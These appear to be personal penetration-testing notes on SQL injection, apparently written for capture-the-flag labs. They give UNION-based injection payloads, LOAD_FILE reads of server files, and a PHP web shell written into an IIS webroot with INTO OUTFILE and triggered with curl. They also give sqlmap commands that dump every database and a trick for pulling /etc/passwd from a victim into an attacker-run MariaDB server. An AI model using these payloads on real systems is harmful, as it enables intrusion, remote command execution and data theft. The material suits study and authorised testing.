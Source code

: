 SQL_related

## Main example

- Try directly in the url, or in the data sent :
- ' 
- ' -- -
- ' order by 1-- -
- increase this until you found the number of field you can control
- 'union select 1,2,... -- -
- Then in the field you can see, inject whatever you want
- Use the payloads from payloadallthethings

### Find information about the database

- type in google information schema \<type_of_db(mysql for example)\>

- Information Gathering for SQLI : https://sqlwiki.netspi.com/attackQueries/informationGathering/#mysql


### Subquerry returns more than 1 row :

- ```select group_concat(<your_query(for example scheme_data>)```

### Want to have a better view 

- add separator to your query : ```SEPARATOR '\n'```

### Load file

- ```select concat("\n\n", TO_BASE64(LOAD_FILE("C:\\\\inetpub\\\\wwwroot\\\\admins.php")),"\n\n")```

### Reverse shell

- ```union select "test",2,3 INTO OUTFILE "C:\\\\inetpub\\\\wwwroot\\\\test.txt"```

- Hit this two times
- If it works :
- ```"<pre><?php system($_GET['cmd']); ?></pre>" INTO OUTFILE 'c:/inetpub/wwwroot/7868768678.php'```
- ```curl ...?cmd=whoami```
- you can replace by ```INTO DUMPFILE```

---

## SQLMAP

### Use injection found before with burpsuite

- Note that it is not working well with the sqlmap download from source on arch linux. If so, download from git directly the binary.

- right click, copy to a file (from intruder window)

- delete the part you inject (the ' too)

- ```sqlmap -r \<file\> --technique=U --batch --dump-all```

- Here the technique used is Union because we found it before, but there are others available (BEUST)

- If you don't know the type of injection : ```sqlmap -r <file> -p productName --dbs```
- or ```sqlmap -r <file> --threads=10 --dbs```

- add ```--batch``` to skip all the questions

- Then, you have the databases, go and see what tables are inside : ```sqlmap -r <file> -D <database> --tables```
- Then dump the needed table : ```sqlmap -r <file> -D <database> -T <table> --dump

### Reverse shell with sqlmap

- On mysql we can check if we have the permission to write on disk with following commands

	
- ```sql-shell> select @@secure_file_priv;```
	
- ```sql-shell> select @@global.secure_file_priv;```


- If their content is empty it’s mean we can !

- Usually the root of the IIS application is at c:/inetpub/wwwroot/ so I tried

	
- ```sql-shell> SELECT "<pre><?php system($_GET['cmd']); ?></pre>" INTO OUTFILE 'c:/inetpub/wwwroot/7868768678.php'```

- and now testing if it was successfully written

	
- ```curl "http://10.10.10.167/7868768678.php?cmd=whoami"```

---

## Remote access to a sql database

https://www.linode.com/docs/databases/mariadb/mariadb-setup-debian/

- edit my.cnf.d/server.cnf with the bind address

- create a database and a table :

```
create database exploit;
use exploit;
create table dmp(content varchar(5000));
```


- Then see if you can load file from victim machine :

```
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE test.test
FIELDS TERMINATED BY "\n"
```

---

## Lot of stuff

https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html

---

## Login and password of mysql database and connected on the machine ?

- ```mysqldump --databases <database> -u<user> -p<password>```
	

